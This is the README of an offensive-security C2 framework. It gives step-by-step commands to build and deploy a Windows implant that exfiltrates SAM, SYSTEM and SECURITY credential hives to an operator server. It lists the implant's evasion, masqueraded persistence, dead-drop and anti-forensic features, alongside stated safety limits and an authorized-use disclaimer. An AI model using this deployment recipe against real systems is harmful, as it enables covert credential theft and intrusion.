

# ADVERSE


ADVERSE is a Go command-and-control (C2) framework for authorized endpoint
assessment. The operator runs **one program**: `adversed` generates a
self-contained Windows agent stub and then runs the C2 — agent registry, task
lifecycle, result reassembly, signed kill controls, and an authenticated
operator admin API.

- **`adversed`** — the only operator-run binary. `gen-stub` cross-compiles the
  Windows payload with its configuration embedded via linker flags, so only the
  generated `.exe` travels to the target. The remaining subcommands operate the
  fleet over the admin API.
- **`registryfil`** — the Windows 10/11 agent. It registers over an encrypted
  session, beacons for tasks, executes bounded registry-hive extraction
  (synthetic by default, with real extraction opt-in), delivers results
  through an encrypted durable spool, and uses bounded, self-cleaning
  persistence to survive a restart until delivery completes. The same code
  builds the generated stub and a `--config` lab binary.

## Highlights

| Area | What it does |
|---|---|
| Encrypted transport | X25519 key agreement → HKDF-SHA256 → ChaCha20-Poly1305 frames with per-direction replay windows |
| Reliable delivery | Encrypted on-disk spool plus server-reported missing-chunk recovery; a restart resumes without re-extracting |
| Bounded persistence | In-memory watchdog by default, optional short-lived HKCU Run; armed only for real-mode extracts, removed on delivery or accepted kill |
| Stealth | String encryption, indirect dispatch, opaque predicates, control-flow flattening, junk islands, anti-debug/VM/emulation checks, behavioural gating, browser-shaped upload traffic, Windows execution hygiene |
| Anti-forensics | Opt-in trace scrubbing (Prefetch, UserAssist/MRU, BAM/DAM, temp copies); event logs and ETW are never touched |
| Safety | Ed25519-signed epoch-bound operator kill, authenticated admin API, encrypted wire and spool, JSONL audit log |

Two transports carry the same wire envelopes:

- **HTTPS** (default) — one framed envelope per POST to the C2 listener.
- **Dead drop** — identical envelopes exchanged as opaque encrypted blobs
  through trusted third-party storage (generic HTTP/WebDAV or Microsoft Graph
  OneDrive), so the C2 listener is never contacted directly. Blobs are deleted
  after reading on both sides.

## Architecture



See [DESIGN.md](DESIGN.md) for the full technical model: wire format, key
schedule, task lifecycle, operator API, hardening stack, and safety invariants.

## Quick start

Prerequisites: Go 1.24+, GNU Make, and a control-plane host running Linux or
macOS. `gen-stub` invokes the Go toolchain against the module source at
generation time, so the `adverse-go/` tree must be present on that host; no
Windows toolchain is required.

```bash
git clone <repo-url> && cd adverse

make build         # adverse-go/bin/adversed (+ lab agent registryfil)
make windows       # adverse-go/bin/registryfil.exe (lab runs with --config)
make test          # go vet + go test ./...
```

### 1. Create the fleet secret and operator token

The fleet secret is a 32-byte hex value shared by the server and every stub it
authenticates. `gen-stub` embeds it in the payload; `serve` derives the same
key material from it.

```bash
SECRET=$(head -c 32 /dev/urandom | xxd -p -c 32)
printf '%s' "$SECRET" > fleet.secret && chmod 600 fleet.secret
echo -n 'change-me' > operator-token.txt && chmod 600 operator-token.txt
```

### 2. Generate the Windows stub

`--src` is auto-detected from the executable path or the working directory;
pass it explicitly if the module lives elsewhere.

```bash
./adverse-go/bin/adversed gen-stub \
  --secret-file fleet.secret \
  --server-url https://<server-ip>:8443 \
  --hives SYSTEM,SAM,SECURITY \
  --out stub.exe \
  --tls-skip-verify
```

Only `stub.exe` is copied to the target. The fleet secret and server URL are
embedded in the binary, so handle stubs as secret material.

**Identity, output and build flags**

| Flag | Default | Meaning |
|---|---|---|
| `--secret-file PATH` / `--secret HEX` | `ADVERSE_SECRET` env | Fleet secret; prefer the file, since argv is visible to process listings |
| `--server-url URL` | `https://127.0.0.1:8443` | C2 listener embedded in the stub |
| `--out PATH` | `stub-<agentID>.exe` | Output path |
| `--src PATH` | auto-detect | Module root to build from |
| `--go PATH` | `go` | Go toolchain to invoke |
| `--seed HEX` | crypto-random | Pin the 8-hex per-build obfuscation seed (reproducible stub) |

**Extraction and mode flags**

| Flag | Default | Meaning |
|---|---|---|
| `--hives LIST` | `SYSTEM,SAM,SECURITY` | Hives the agent may extract |
| `--chunk-size N` | `131072` | Result chunk size in bytes (max 512 KB) |
| `--real-mode` | `false` | Opt in to real hive extraction (synthetic remains the default) |
| `--min-delay-ms` / `--max-delay-ms` | `5000` / `15000` | Beacon interval range |
| `--user-agent STRING` | built-in browser UA | User-Agent used when `--shape=false` |

**Delivery and stealth flags**

| Flag | Default | Meaning |
|---|---|---|
| `--persistence MODE` | `watchdog` | `none` / `watchdog` / `runkey` / `both`. Watchdog relaunches a crashed agent with no disk or registry artifact; `runkey` adds an HKCU Run value for reboot coverage |
| `--run-key-name NAME` | `WindowsUpdateCheck` | Run value name for `runkey` / `both` |
| `--spool[=false]` | `true` | Encrypted durable result spool |
| `--spool-dir DIR` | `%TEMP%\adverse\<agent>\spool` | Spool directory |
| `--exit-after-delivery[=false]` | `true` | Exit 0 once the server confirms every extract job and the spool is empty |
| `--shape[=false]` | `true` | Browser-shaped HTTPS traffic |
| `--upload-jitter-ms N` | `250` | Extra pacing jitter between result chunks |
| `--scrub-traces` | `false` | Best-effort removal of agent-attributable traces at teardown |
| `--windowsgui[=false]` | `true` | Build a GUI-subsystem binary (`-H windowsgui`, no console window) |
| `--tls-skip-verify` | `false` | Accept the server's self-signed lab certificate |

`gen-agent` writes the same JSON configuration for lab runs and shares the
delivery/stealth flags, except `--windowsgui` and with
`--exit-after-delivery=false` by default so a lab agent stays resident.

### 3. Start the C2 server

```bash
./adverse-go/bin/adversed serve \
  --secret-file fleet.secret \
  --operator-token-file operator-token.txt \
  --listen 0.0.0.0:8443 --bind-all
```

The server generates a self-signed TLS certificate at startup and serves both
the agent wire endpoint and the operator admin API on one listener. It binds
loopback by default; non-loopback listening requires `--bind-all`. Use
`--profile` for beacon cadence/jitter/header tuning and `--state-dir` for
persistent server state and the JSONL audit log.

### 4. Deploy the stub

Copy only `stub.exe` to the Windows 10/11 target:

```powershell
# Live mode is the stub default
.\stub.exe

# Optional fail-safe dry run (no network egress)
.\stub.exe --dry-run
```

Without a stub generated with `--real-mode`, the agent produces synthetic hive
data only. The lab agent keeps the opposite default: running
`registryfil.exe --config agent.json` starts in dry-run, and
`--dry-run=false` selects live mode.

### 5. Operate

```bash
export ADVERSE_OPERATOR_TOKEN=$(cat operator-token.txt)

./adverse-go/bin/adversed list                                     # registered agents
./adverse-go/bin/adversed task --agent <id> --action extract --wait \
  --hives SYSTEM,SAM,SECURITY                                      # enqueue + wait
./adverse-go/bin/adversed results --agent <id> --task <task-id> --out hives/
./adverse-go/bin/adversed kill --agent <id>                        # signed kill
```

Every task follows a tracked lifecycle:

```text
queued → dispatched → acked → completed | failed | expired
```

`task --wait` blocks until a terminal state; `results --out <dir>` writes
server-reassembled hive files. A missing chunk leaves the task in flight: the
next beacon reports the missing sequence numbers and the agent resends only
those from its encrypted spool. Once every extract job is confirmed complete,
a stub with `--exit-after-delivery` (the default) runs final cleanup and exits
0. Agent exit codes: `0` signed kill or delivery complete, `2` kill switch,
`1` fatal.

## Command reference

| Command | Purpose |
|---|---|
| `adversed gen-stub` | Cross-compile a self-contained Windows stub with embedded config |
| `adversed gen-agent` | Write an agent configuration JSON for lab runs |
| `adversed serve` | Start the C2 server (agent wire endpoint + admin API) |
| `adversed task` | Enqueue `extract` / `sleep` / `noop`; `--wait` for a terminal state |
| `adversed tasks` | Show task lifecycle records |
| `adversed list` | List registered agents and online status |
| `adversed results` | Show result entries / fetch reassembled hives |
| `adversed kill` | Sign and enqueue an epoch-bound kill |
| `adversed status` | Server health and counters |
| `adversed version` | Print version |

## Build targets

| Target | Result |
|---|---|
| `make build` | `adversed` (operator) and `registryfil` (lab agent), stripped and BuildID-scrubbed |
| `make windows` / `windows-hardened` | Lab `registryfil.exe` / `registryfil-hardened.exe` |
| `make hardened` | Hardened binaries: PIE, BuildID scrub, per-build `POLY_SEED`; pinning `POLY_SEED=<hex>` also rekeys the generated string table via `make generate` |
| `make obfuscated` | Hardened plus garble `-literals -tiny -debug` when garble is installed; falls back to hardened otherwise |
| `make polymorph` | Append random overlay padding to bust file hashes without changing execution |
| `make verify-hardened` | Strings/IOC residue check on hardened artifacts |
| `make test` / `test-race` | `go vet` plus tests, with or without the race detector |
| `make clean` | Remove build outputs |

Build outputs land in `adverse-go/bin/`. Deployable stubs come from
`adversed gen-stub`, not from `make`.

## Project layout

```text
.
├── README.md / DESIGN.md
├── Makefile                     Root build wrapper
├── LICENSE
├── .github/workflows/go.yml     CI: vet, race, fuzz smoke, integration, macOS, Windows cross-build
└── adverse-go/
    ├── cmd/adversed             C2 server CLI and operator commands
    ├── cmd/registryfil          Windows agent: generated stub or --config lab entrypoint
    ├── internal/                wire · cryptokeys · message · transport · server ·
    │                            agent · registrywin · audit · opsec · profile ·
    │                            obfuscate · anti · behavioural · stealth · syscalls ·
    │                            spool · persist · netshape · hygiene · antiforensic ·
    │                            adminapi · drop · timerwait
    ├── integration/             End-to-end loopback tests with real binaries
    ├── testdata/kat.json        Deterministic known-answer fixtures
    └── tools/                   Build-time tooling (polymorph, stringcrypt)
```

## Testing

```bash
make test                                       # vet + all unit tests
make test-race                                  # race detector (CI gate)
cd adverse-go && go test ./integration -v -count=1   # real binaries end-to-end
```

CI runs vet, race tests, wire/message fuzz smoke, integration tests on Ubuntu,
vet and tests on macOS, and a Windows cross-vet plus `registryfil.exe` build.

## Safety

The safety model is fail-closed and enforced in code, not by convention:

- **Real-mode opt-in.** Normal development uses synthetic hives. Real
  extraction requires a stub generated with `--real-mode`; without it the agent
  produces synthetic data only.
- **Operator kill.** The signed Ed25519 epoch-bound kill remains the primary
  stop path. The agent also stops on a kill_switch, delivery completion, a
  signal, or a fatal error; there is no self-TTL.
- **Bounded persistence.** Arms only for a real-mode extract; synthetic-mode
  stubs carry the setting inert. Watchdog relaunches are capped at 3, and disarm
  removes the watchdog and only the Run value ADVERSE wrote on delivery
  completion or an accepted kill. Rejected kills never trigger cleanup.
- **Encrypted spool.** Chunks and journal are ChaCha20-Poly1305 under
  HKDF-SHA256(secret, `adverse-spool-v1|<agent>`), written atomically and wiped
  on terminal paths. Content and identifiers are hidden; file count, sizes, and
  timing still leak to a live examiner.
- **Opt-in scrub only.** `--scrub-traces` best-effort removes agent-attributable
  traces; event logs, ETW/ETW-TI, the USN journal, and MFT timestamps are never
  touched, and deletion is itself observable evidence.
- **Wire compatibility.** The beacon `jobs` recovery array is additive; the
  frame format and key schedule are unchanged and known-answer pinned.
- **Bounded input.** The HTTPS body limit is 2 MB, extract chunks cap at 512 KB,
  and terminal chunk state is retained for 1 hour (max 64 jobs) for retrieval.
- **Operator auth.** The admin API requires a bearer token; no configured token
  fails closed with 503, and traffic is rate-limited per IP before auth.
- **Audit trail.** Operator actions and server events append to
  `state_dir/audit.jsonl`; session keys and hive bytes are never logged.
- **Stub secrecy.** The fleet secret and server URL are embedded in the
  generated stub and recoverable from the binary.

**Authorized use only.** ADVERSE is an offensive-security tool for systems you
own or are explicitly authorized to assess. Long-term persistence, unrestricted
targeting, and third-party deployment remain out of scope; the bounded,
self-cleaning persistence exists only to finish an authorized retrieval and is
removed on delivery or an accepted kill. Run live deployments only in disposable
lab environments with synthetic or canary data.

## License

MIT — see [LICENSE](LICENSE).
